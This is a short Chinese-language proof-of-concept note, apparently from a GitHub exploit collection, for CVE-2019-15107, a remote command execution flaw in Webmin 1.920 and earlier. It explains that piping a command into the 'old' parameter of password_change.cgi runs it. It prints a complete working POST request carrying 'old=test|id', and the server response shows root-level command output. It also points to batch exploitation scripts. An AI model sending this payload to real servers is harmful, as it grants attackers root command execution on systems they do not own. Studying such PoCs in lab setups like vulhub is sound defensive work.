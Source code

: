 # CVE-2019-15107  Webmin RCE <=1.920

```
1.  Webmin <=1.920
2.  漏洞需要开启密码重置功能。
```
`https://10.10.20.166:10000/password_change.cgi`

![](CVE-2019-15107 Webmin 1.920 远程命令执行漏洞/CVE-2019-15107.gif)



### poc

在参数`old`后加上`|ifconfig` 执行命令。（user不存在仍然可以执行命令）

```
POST /password_change.cgi HTTP/1.1
Host: 10.10.20.166:10000
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Cookie: redirect=1; testing=1; sid=x; sessiontest=1
Referer: https://10.10.20.166:10000/session_login.cgi
Content-Type: application/x-www-form-urlencoded
Content-Length: 60

user=rootxx&pam=&expired=2&old=test|id&new1=test2&new2=test2



<div class="panel-body">
<hr>
<center><h3>Failed to change password : The current password is incorrectuid=0(root) gid=0(root) groups=0(root)
</h3></center>
```


**批量脚本github获取**

### 参考链接：

https://github.com/vulhub/vulhub/tree/master/webmin/CVE-2019-15107
